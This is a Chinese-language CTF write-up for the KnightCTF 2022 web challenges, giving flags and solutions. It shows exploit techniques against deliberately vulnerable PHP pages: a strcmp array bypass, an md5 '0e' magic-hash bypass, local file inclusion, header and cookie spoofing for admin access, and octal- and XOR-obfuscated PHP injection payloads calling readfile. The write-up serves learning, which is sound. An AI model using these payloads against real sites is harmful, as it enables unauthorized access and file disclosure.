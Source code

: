```yaml
---
title: "KnightCTF2022 Wp"
slug: "knightctf2022-wp"
description: "比较简单的题，基本都做出来了，水一篇wp"
date: 2022-01-24T17:47:53+08:00
categories: ["CTF"]
series: []
tags: ["wp"]
draft: false
toc: true
---
```


https://knightctf.com/challenges

https://ctftime.org/event/1545/tasks/

标`-`的两道题是脑子短路了，赛后出的

----

## Sometime you need to look wayback

https://github.com/KCTF202x/repo101/commits/main

![image-20220121231047134](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20220121231047134.png)

`KCTF{version_control_is_awesome}`

## Do Something Special

http://do-something-special.kshackzone.com/

页面按钮重定向至`/gr@b_y#ur_fl@g_h3r3!`，由于url的截断，`#`和后面的内容我们urlencode一下

`KCTF{Sp3cial_characters_need_t0_get_Url_enc0ded}`

## Obsfuscation Isn't Enough

很长的jsfuck，控制台

```
if (document.forms[0].username.value == "83fe2a837a4d4eec61bd47368d86afd6" && document.forms[0].password.value == "a3fa67479e47116a4d6439120400b057") document.location = "150484514b6eeb1d99da836d95f6671d.php"
```

http://obsfication.kshackzone.com/150484514b6eeb1d99da836d95f6671d.php

`KCTF{0bfuscat3d_J4v4Scr1pt_aka_JSFuck}`

## -Zero is not the limit

有user1到user5，没有user0

然后没解出来，看wp就有点无语

```
/user/-1
```

……

## Find Pass Code - 1

页面提示`/?source=1`可看源码

```
<?php
require "flag.php";
if (isset($_POST["pass_code"])) {
    if (strcmp($_POST["pass_code"], $flag) == 0 ) {
        echo "KCTF Flag : {$flag}";
    } else {
        echo "Oh....My....God. You entered the wrong pass code.<br>";
    }
}
if (isset($_GET["source"])) {
    print show_source(__FILE__);
}

?>
```

用了`strcmp`，我们直接数组绕过

```
pass_code=KCTF
```

`KCTF{ShOuLd_We_UsE_sTrCmP_lIkE_tHaT}`

## Most Secure Calculator

```
readfile('flag.txt');
```

`KCTF{WaS_mY_cAlCuLaToR_sAfE}`

## Can you be Admin?

典，请求头的题

```
User-Agent: KnightSquad
Referer: localhost
POST: username=tareq&password=IamKnight&submit=Login
```

```
/dashboard.php
User-Agent: KnightSquad
Referer: localhost
Cookie: VXNlcl9UeXBl=QWRtaW4=
```

更典的是总有模糊不清的提示

`KCTF{FiN4LlY_y0u_ar3_4dm1N}`

## My PHP Site

`/?file=`文件包含点，php伪协议看页面源码

```
<?php

if(isset($_GET['file'])){
    if ($_GET['file'] == "index.php") {
        echo "<h1>ERROR!!</h1>";
        die();
    }else{
        include $_GET['file'];
    }

}else{
    echo "<h1>You are missing the file parameter</h1>";

    #note :- secret location /home/tareq/s3crEt_fl49.txt
}

?>
```

直接包含s3crEt_fl49.txt就行，不用绝对路径

`KCTF{L0C4L_F1L3_1ncLu710n}`

## -Bypass!! Bypass!! Bypass!!

页面源码提示/api/request/auth_token，post，得到token=nrpd935q5g77b0kr7iaiwi0aesa7m79xqu4n99hi，然后我尝试了很多get post参数，还有cookie，都不行

看wp才知道这里应该使用`X-Authorized-For`请求头

`KCTF{cOngRatUlaT10Ns_wElCoMe_t0_y0ur_daShBoaRd}`

## Find Pass Code - 2

跟之前一样的方式看源码`/?source=1`

```
<?php
require "flag.php";
$old_pass_codes = array("0e215962017", "0e730083352", "0e807097110", "0e840922711");
$old_pass_flag = false;
if (isset($_POST["pass_code"]) && !is_array($_POST["pass_code"])) {
    foreach ($old_pass_codes as $old_pass_code) {
        if ($_POST["pass_code"] === $old_pass_code) {
            $old_pass_flag = true;
            break;
        }
    }
    if ($old_pass_flag) {
        echo "Sorry ! It's an old pass code.";
    } else if ($_POST["pass_code"] == md5($_POST["pass_code"])) {
        echo "KCTF Flag : {$flag}";
    } else {
        echo "Oh....My....God. You entered the wrong pass code.<br>";
    }
}
if (isset($_GET["source"])) {
    print show_source(__FILE__);
}

?>
```

典，0e绕过，0e1137126905

`KCTF{ShOuD_wE_cOmPaRe_MD5_LiKe_ThAt__Be_SmArT}`

## Most Secure Calculator - 2

8进制，依旧是`readfile('flag.txt')`

```
("\162\145\141\144\146\151\154\145")("\146\154\141\147\56\164\170\164")
```

discord上还看到很多xor的payload，也很好

```
("538869"^"~4~2-~"^"8~5~~*")(("378#"^"~(2,"^".~~%"))
```

```
("393480"^"@@@@]]")(("8!4@80!8"^"[@@`^@_").(".").("484"^"@@@"))
```
